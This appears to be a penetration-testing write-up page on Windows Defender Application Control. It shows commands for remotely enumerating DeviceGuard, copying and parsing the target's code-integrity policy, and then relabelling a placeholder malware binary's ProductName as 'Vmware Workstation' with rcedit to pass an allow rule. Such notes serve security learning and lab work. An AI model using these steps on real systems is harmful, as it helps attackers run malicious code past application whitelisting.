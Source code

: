 # WDAC

## Enumeration

We need to check also if other security measure are in place like wdac.

{% code overflow="wrap" %}
```powershell
winrs -r:<$Target> "powershell Get-CimInstance -ClassName Win32_DeviceGuard -Namespace root\Microsoft\Windows\DeviceGuard"
```
{% endcode %}

<figure><img src="https://github.com/italianpenty/WriteUps/raw/main/.gitbook/assets/immagine%20(17).png" alt=""><figcaption></figcaption></figure>

We can now attempt to copy and parse the WDAC config deployed on the target to find suitable bypasses and loopholes in the policy.

```
dir \\<$Target>\c$\Windows\System32\CodeIntegrity
```

<figure><img src="https://github.com/italianpenty/WriteUps/raw/main/.gitbook/assets/immagine%20(18).png" alt=""><figcaption></figcaption></figure>

We find a deployed policy named DG.bin.p7 / SiPolicy.p7b in the CodeIntegrity folder. Copy either policy binary back over to our kali.

{% code overflow="wrap" %}
```powershell
copy \\<$Target>L\c$\Windows\System32\CodeIntegrity\DG.bin.p7 C:\AD\Tools
```
{% endcode %}

Now import CIPolicyParser.ps1 to parse the copied policy binary

{% code overflow="wrap" %}
```powershell
ConvertTo-CIPolicy -BinaryFilePath C:\AD\Tools\DG.bin.p7 -XmlFilePath C:\AD\Tools\DG.bin.xml
```
{% endcode %}

<figure><img src="https://github.com/italianpenty/WriteUps/raw/main/.gitbook/assets/immagine%20(19).png" alt=""><figcaption></figcaption></figure>

Noa analyze it to findout that vmware Workstation has allow permission to execute

<figure><img src="https://github.com/italianpenty/WriteUps/raw/main/.gitbook/assets/immagine%20(20).png" alt=""><figcaption></figcaption></figure>

## Abuse

To bypass WDAC we edit File Attributes to match the Product Name: "Vmware Workstation".

{% code overflow="wrap" %}
```powershell
rcedit-x64.exe <$Malware> --set-version-string "ProductName" "Vmware Workstation"
```
{% endcode %}
